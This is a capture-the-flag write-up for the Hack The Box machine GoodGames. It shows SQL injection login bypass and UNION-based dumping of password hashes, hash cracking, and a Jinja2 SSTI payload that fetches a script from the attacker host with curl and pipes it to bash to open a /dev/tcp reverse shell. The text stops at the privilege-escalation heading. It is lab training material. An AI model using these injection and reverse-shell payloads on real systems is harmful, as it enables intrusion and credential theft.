







# GoodGames by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| GoodGames  | 10.10.11.130  | Linux              | 20       | 4.9      | 1319        | 1157        | Yes       | 2022-02-21     | 2022-02-21     | No         | 446          |

## Summary
1. Scan ports -> 80
2. Enumerate `http://goodgames.htb` -> SQLi
3. Enumerate database through SQLi -? table `user`
4. Read table `user` and `crack` the hash -> `admin@goodgames.htb:superadministrator`
5. Log in with credentials -> `http://internal-administration.goodgames.htb`
6. Reuse credentials in subdomain -> `http://internal-administration.goodgames.htb/settings` vulnerable to SSTI
7. SSTI on `/settings` -> RCE
8. RCE to Reverse shell via `STTI` -> `Root` user on docker
9. Discover host machine and scan ports -> port `22 open`
10. Reuse `credentials` with `ssh` -> Pivoting to `augustus` user (User flag)
11. Copy `/bin/bash` to mounted `/home/augusts` -> `/home/augustus/bash` accessible from docker's root
12. `chmod +s bash` and `chowm root bash` on docker -> Same `/home/augustus` in docker and host
13. `./bash -p` in host -> `Root` user on host (Root flag)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.11.130
PING 10.10.11.130 (10.10.11.130) 56(84) bytes of data.
64 bytes from 10.10.11.130: icmp_seq=1 ttl=63 time=42.6 ms
```

### Nmap port scan
First, we will run a `open ports` scan using nmap:
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.11.130 -v -n -Pn -oG Enum/allPorts
```
We can retrieve the results using the utility `extractPorts`:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.11.130 

	[*] Open ports:  80 


[*] Ports have been copied to clipboard...
```
Next, we will run a detailed scan:
```bash
❯ nmap -p80 -A 10.10.11.130 -n -v -oN Enum/targeted
PORT    STATE SERVICE  VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
Service Info: Host: goodgames.htb
```
We discovered a domain name, so add it to `/etc/hosts`.

#### Final nmap report
| Port | Service | Version | Extra |
| :-: | :-: | :-: | :-: |
| 80   | http    | Apache httpd 2.4.51 | Werkzeug 2.0.2 Python/3.9.2 |

### Port 80 Enumeration (goodgames.htb)
#### Technology scan
Scan the web technologies with `whatweb` and `wappalyzer`:
```bash
http://goodgames.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Werkzeug/2.0.2 Python/3.9.2], IP[10.10.11.130], JQuery, Meta-Author[_nK], PasswordField[password], Python[3.9.2], Script, Title[GoodGames | Community and Store], Werkzeug[2.0.2], X-UA-Compatible[IE=edge]
```
Toguether with `wappalyzer`:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Python | 3.9.2 | - |
| Werkzeug | 2.0.2 | - |
| Gsap | 1.20.3 | - |
| Hammer.js | 2.0.7 | - |
| JQuery | 3.3.1 | - |
| Moment.js | 2.22.1 | - |

#### Subdirectory fuzzing
Use `wfuzz` to scan subdirectories of the webpage:
```bash
❯ sudo wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 9265,85093 "http://goodgames.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://goodgames.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000086:   200        266 L    545 W      9267 Ch     "profile"         
000000032:   200        908 L    2572 W     44206 Ch    "blog"            
000000053:   200        266 L    553 W      9294 Ch     "login"           
000000217:   200        727 L    2070 W     33387 Ch    "signup"          
000001225:   302        3 L      24 W       208 Ch      "logout"          
000012950:   200        729 L    2069 W     32744 Ch    "forgot-password" 
```

#### Subdomain fuzzing
Use `wfuzz` to scan subdomains of the webpage:
```bash
❯ wfuzz -c -u "http://goodgames.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.goodgame.htb" --hc 404 --hh 85093
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://goodgames.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000009532:   400        10 L     35 W       305 Ch      "#www"            
000010581:   400        10 L     35 W       305 Ch      "#mail"  
```
Seems like there are no subdomains available.

#### Manual enumeration
If we access to `/signup` we can see the following page:

We can sign up with the credentials `revan@korriban.com:1234`. When logged in, we see the following page:

Where we are presented the option to change the password. This form changes the password without any 2 factor authentication:


So the change password form is not useful. Let's focus then on trying to log in as an admin user:

#### SQLi
On the login section we can see two fields: `email` and `password`. We can try to login with the credentials as `revan`:
```bash
# Logged in
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com&password=1234" -s | grep title
    <title>GoodGames | Login Success</title>
# Failure
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com&password=123" -s | grep title
    <title>GoodGames | 500</title>
```
We can see the differences between successfull and unsuccessful login. Let's try some SQLi:
```bash
# Password bypass
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com&password=123' or 1=1 -- -" -s | grep title
    <title>GoodGames | 500</title>
# Any user bypass
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' or 1=1 -- -&password=1" -s | grep title
    <title>GoodGames | Login Success</title>
```
So we found a payload that allow us to connect as the first user in the database. Let's check who that is:


We managed to log in as admin. Looking up the options this user can perform, we found the subdomain `http://internal-administration.goodgames.htb/`, so we add it to `/etc/hosts` and try to access it:



### Port 80 enumeration (internal-administration.goodgames.htb)
#### Technology scan
Scan the web technologies with `whatweb` and `wappalyzer`:
```bash
❯ whatweb http://internal-administration.goodgames.htb
http://internal-administration.goodgames.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[Werkzeug/2.0.2 Python/3.6.7], IP[10.10.11.130], Python[3.6.7], RedirectLocation[http://internal-administration.goodgames.htb/login], Title[Redirecting...], Werkzeug[2.0.2]
http://internal-administration.goodgames.htb/login [200 OK] Bootstrap, Cookies[session], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.0.2 Python/3.6.7], HttpOnly[session], IP[10.10.11.130], Meta-Author[Themesberg], Open-Graph-Protocol[website], PasswordField[password], Python[3.6.7], Script, Title[Flask Volt Dashboard -  Sign IN  | AppSeed][Title element contains newline(s)!], Werkzeug[2.0.2]
```
Toguether with `wappalyzer`:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Python | 3.6.7 | - |
| Werkzeug | 2.0.2 | - |
| Core-js | 3.2.1 | - |
| Moment.js | 2.22.1 | - |
 
#### Subdirectory fuzzing
Use `wfuzz` to scan subdirectories of the webpage:
```bash
❯ sudo wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404,403 --hh 6672,218 "http://internal-administration.goodgames.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://internal-administration.goodgames.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000053:   200        210 L    940 W      13603 Ch    "login" 
```
The only page available is `/login`, the rest return a code `403` (Not authorized).

### Manual enumeration
We get into a new login page:

Let's try the SQLi again:
- username: `admin' or 1=1 -- -` -> Failure
- password: `1234' or 1=1 -- -` -> Failure
After some time trying, we conclude this second login is not vulnerable to SQLi.

### Information leakage via SQLi
We will take benefit of the SQLi we obtained on `http://goodgames.htb/login` to try to enumerate the database used to store web information. Let's try to enumerate the number of columns the table we are selecting has:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 1 -- -&password=1" -s -i | grep Content-Length
Content-Length: 9285
```
We can suppose the table has at least 1 row, let's try this with an impossible number of columns:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 100 -- -&password=1" -s -i | grep Content-Length
Content-Length: 33490
```
So we can try to guess the maximum column number:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 4 -- -&password=1" -s -i | grep Content-Length
Content-Length: 9285
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' order by 5-- -&password=1" -s -i | grep Content-Length
Content-Length: 33490
```
With this information we are sure that the table has 4 columns. We can use this to send a union between the email and the four columns enumerated:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com' union select 1,2,3,4 -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome revan4</h2>
```
We succeeded, as we can see, the webpage is returning the username and the last column concatenated. In order to see it better, let's change the email to `revan @korriban.com`:
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,4 -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome 4</h2>
```
Now, with this sequentiatior set up, we can try to enumerate the database name:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,database() -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome main</h2>  
```
So the database name is `main`. Let's enumerate the tables in the database:
```bash
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,table_name from information_schema.tables -- -&password=1" -s -i | grep Welcome
                    <h2 class="h4">Welcome ADMINISTRABLE_ROLE_AUTHORIZATIONSAPPLICABLE_ROLESCHARACTER_SETSCHECK_CONSTRAINTSCOLLATIONSCOLLATION_CHARACTER_SET_APPLICABILITYCOLUMNSCOLUMNS_EXTENSIONSCOLUMN_PRIVILEGESCOLUMN_STATISTICSENABLED_ROLESENGINESEVENTSFILESINNODB_BUFFER_PAGEINNODB_BUFFER_PAGE_LRUINNODB_BUFFER_POOL_STATSINNODB_CACHED_INDEXESINNODB_CMPINNODB_CMPMEMINNODB_CMPMEM_RESETINNODB_CMP_PER_INDEXINNODB_CMP_PER_INDEX_RESETINNODB_CMP_RESETINNODB_COLUMNSINNODB_DATAFILESINNODB_FIELDSINNODB_FOREIGNINNODB_FOREIGN_COLSINNODB_FT_BEING_DELETEDINNODB_FT_CONFIGINNODB_FT_DEFAULT_STOPWORDINNODB_FT_DELETEDINNODB_FT_INDEX_CACHEINNODB_FT_INDEX_TABLEINNODB_INDEXESINNODB_METRICSINNODB_SESSION_TEMP_TABLESPACESINNODB_TABLESINNODB_TABLESPACESINNODB_TABLESPACES_BRIEFINNODB_TABLESTATSINNODB_TEMP_TABLE_INFOINNODB_TRXINNODB_VIRTUALKEYWORDSKEY_COLUMN_USAGEOPTIMIZER_TRACEPARAMETERSPARTITIONSPLUGINSPROCESSLISTPROFILINGREFERENTIAL_CONSTRAINTSRESOURCE_GROUPSROLE_COLUMN_GRANTSROLE_ROUTINE_GRANTSROLE_TABLE_GRANTSROUTINESSCHEMATASCHEMATA_EXTENSIONSSCHEMA_PRIVILEGESSTATISTICSST_GEOMETRY_COLUMNSST_SPATIAL_REFERENCE_SYSTEMSST_UNITS_OF_MEASURETABLESTABLESPACESTABLESPACES_EXTENSIONSTABLES_EXTENSIONSTABLE_CONSTRAINTSTABLE_CONSTRAINTS_EXTENSIONSTABLE_PRIVILEGESTRIGGERSUSER_ATTRIBUTESUSER_PRIVILEGESVIEWSVIEW_ROUTINE_USAGEVIEW_TABLE_USAGEblogblog_commentsuser</h2>
```
But this output is illegible, so we can treat it to see the output correctly:
```bash
 ❯ curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,table_name from information_schema.tables limit 0,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}'
ADMINISTRABLE_ROLE_AUTHORIZATIONS
```
Now we can enumerate all the table names in the database:
```bash
❯ for i in `seq 0 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
blog
blog_comments
user
```
Now, we can enumerate all the columns in the table `blog`:
```bash
❯ for i in `seq 1 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,column_name from information_schema.columns where table_name=\"blog\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
title
feature_image
category
category2
content
quote_content
quote_author
subtitle_image
subtitle
subtitle_text
video
subtitle_text2
created_by
created_at
```
From this column names, we don't think it can contain any valuable information:
```bash
❯ for i in `seq 1 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,column_name from information_schema.columns where table_name=\"blog_comments\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
blog_id
user
comment
is_accepted
created_at
```
There isn't any useful information, so we can just skip this table:
```bash
❯ for i in `seq 1 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,column_name from information_schema.columns where table_name=\"user\" limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
email
password
name
```
We see the field password, so we could leak the password of all the users with:
```bash
❯ for i in `seq 0 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,email from user limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
admin@goodgames.htb
revan@korriban.com
❯ for i in `seq 0 100`;do curl -X POST "http://goodgames.htb/login" -d "email=revan @korriban.com' union select 1,2,3,password from user limit $i,1 -- -&password=1" -s -i | grep Welcome | sed -e "s/^ *//g" | awk '{print $3}' | awk -F"<" '{print $1}';done
2b22337f218b2d82dfc3b6f77e7cb8ec
81dc9bdb52d04dc20036dbd8313ed055
```
We obtained credentials for the `admin` and `revan` users, but they are encrypted, so we must first identify the type of hash function used to encrypt them:
```bash
❯ hashid 81dc9bdb52d04dc20036dbd8313ed055
Analyzing '81dc9bdb52d04dc20036dbd8313ed055'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
❯ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 81dc9bdb52d04dc20036dbd8313ed055

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
As we can see, the hash is probably MD5, so we can test it as we know the credentials for `revan`:`1234`:
```bash
❯ echo "1234" > Results/revan_passwd
❯ echo "81dc9bdb52d04dc20036dbd8313ed055" > Results/revan_hash
❯ john --wordlist=Results/revan_passwd Results/revan_hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 12 needed for performance.
1234             (?)
1g 0:00:00:00 DONE (2022-06-04 18:50) 50.00g/s 50.00p/s 50.00c/s 50.00C/s 1234
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
So we managed to crack the known password, let's try the same with the admin's password but using the dictionary `rockyou`:
```bash
❯ john --wordlist=/usr/share/dict/rockyou.txt Results/admin_hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
superadministrator (?)
1g 0:00:00:00 DONE (2022-06-04 18:52) 5.263g/s 18295Kp/s 18295Kc/s 18295KC/s superarchirequetecontrapadrisimo..super_girlbhd
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```
Success, after this process we obtained the credential `admin@goodgames.htb:superadministrator`. We can now try these credentials on the `internal-administration` subdomain login:


## User shell
### SSTI on `internal-administration.goodgames.htb/settings`
After enumerating the pages at the `internal-administration` subdomain, we found the page `/settings`, which let us modify the users information and presents a report of te modification. If we try to inject a field, for example the name, with `{{7*7}}, we obtain:

We successfully achieved SSTI, so we can now try to obtain a reverse shell:
- First, we confirm that the system has the `curl` and `bash` binaries.
- Second, we inject `curl 10.10.16.2:4444/Exploits/reverse_tcp | bash` into the `name` field:
```bash
# Setting up the reverse shell
❯ echo "bash -i >& /dev/tcp/10.10.16.2/3333 0>&1" > Exploits/reverse_tcp
❯ python3 -m http.server 4444 &
❯ nc -nlvp 3333
```
```python
# Payload
{{}}{{config.__class__.__init__.__globals__['os'].popen('curl 10.10.16.2:4444/Exploits/reverse_tcp | bash').read()}}
```
Now, we launch the reverse shell and obtain a user shell:
```bash
❯ nc -nlvp 3333
10.10.11.130 - - [04/Jun/2022 19:23:56] "GET /Exploits/reverse_tcp HTTP/1.1" 200 -
Connection from 10.10.11.130:50470
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# hostname -I
hostname -I
172.19.0.2 
```
We obtained a user shell as `root` but we are not on the main machine, we are in a container with IP `127.19.0.2`.

## Privilege escalation
### Pivoting to host
